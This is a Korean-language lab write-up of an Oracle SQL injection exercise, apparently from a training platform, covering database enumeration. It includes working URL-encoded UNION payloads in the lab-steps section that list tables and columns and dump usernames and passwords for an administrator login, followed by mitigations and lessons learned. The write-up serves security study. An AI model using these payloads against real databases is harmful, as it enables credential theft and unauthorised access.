





# Lab: SQL injection attack, listing the database contents on Oracle databases



## Difficulty

Practitioner

---

## 취약점

- SQL Injection (Database Enumeration)

---

## SQL Query

### 기존 Query

```sql
SELECT name, description
FROM products
WHERE category = 'Gifts';
```

### 공격 Query

```sql
SELECT name, description
FROM products
WHERE category = 'Gifts'

UNION

SELECT table_name, NULL
FROM all_tables;
```

### 결과

Oracle의 데이터 딕셔너리(Data Dictionary) View인 `ALL_TABLES`를 조회하여 현재 사용자가 접근 가능한 테이블 목록을 확인하였다.

이를 통해 공격자는 사용자 정보가 저장된 테이블을 식별하고, 이후 `ALL_TAB_COLUMNS`를 이용해 컬럼 정보를 조회한 뒤 실제 데이터를 추출할 수 있다.


---

## 발생 가능한 위험

- 데이터베이스에 존재하는 테이블 구조가 노출될 수 있다.
- 공격자는 사용자 정보가 저장된 테이블을 식별하여 추가적인 SQL Injection 공격을 수행할 수 있다.
- 데이터베이스의 내부 구조가 노출되어 공격 성공 가능성이 높아질 수 있다.
- 테이블 정보를 기반으로 계정 정보, 개인정보 등 민감한 데이터 유출로 이어질 수 있다.

---

## 사용한 도구

- Burp Suite Repeater

---

## 실습 과정
1. Burp Suite에서 GET /filter?category= 요청을 Repeater로 전송
2. ORDER BY를 이용하여 컬럼 개수를 확인
3. 문자열(String)이 출력되는 컬럼을 확인
4. 데이터 베이스 내의 테이블 목록 확인<br/>
 <br/>
```text
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
```

5. 테이블 내의 컬럼 이름 확인<br/>
 <br/>
 <br/>
```text
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_******'--
```

6. username과 password 담고 있는 컬럼 내용 조회<br/>
 <br/>
 <br/>
```text
'+UNION+SELECT+USERNAME_******,+PASSWORD_*******+FROM+USERS_******--
```

7. 'administrator' 계정으로 로그인


---

## 조회한 데이터
- 테이블 명: users_******
- 컬럼 명: username_****** password_******
---

## 대응 방안

- Prepared Statement(Parameterized Query)를 사용하여 SQL Injection을 방지한다.
- 사용자 입력을 SQL Query에 직접 연결하지 않는다.
- `ALL_TABLES`, `ALL_TAB_COLUMNS`와 같은 데이터 딕셔너리(Data Dictionary) View에 일반 애플리케이션 계정이 접근하지 못하도록 최소 권한 원칙(Least Privilege)을 적용한다.
- SQL 오류 메시지와 데이터베이스 정보를 사용자에게 노출하지 않는다.
- 데이터베이스 계정에는 필요한 테이블에만 접근 권한을 부여한다.

---

## 배운 점

Oracle에는 데이터베이스의 메타데이터를 저장하는 데이터 딕셔너리(Data Dictionary) View가 존재한다는 것을 알게 되었다.

공격자는 SQL Injection을 이용하여 `ALL_TABLES`와 같은 시스템 View를 조회함으로써 데이터베이스의 구조를 파악할 수 있으며, 
이를 통해 사용자 정보가 저장된 테이블과 컬럼을 찾아 실제 데이터 탈취 공격을 수행할 수 있다는 점을 이해하였다.

- `ALL_TABLES` : 접근 가능한 테이블 목록 조회
- `ALL_TAB_COLUMNS` : 테이블의 컬럼 목록 조회
- `ALL_USERS` : 데이터베이스 사용자 목록 조회
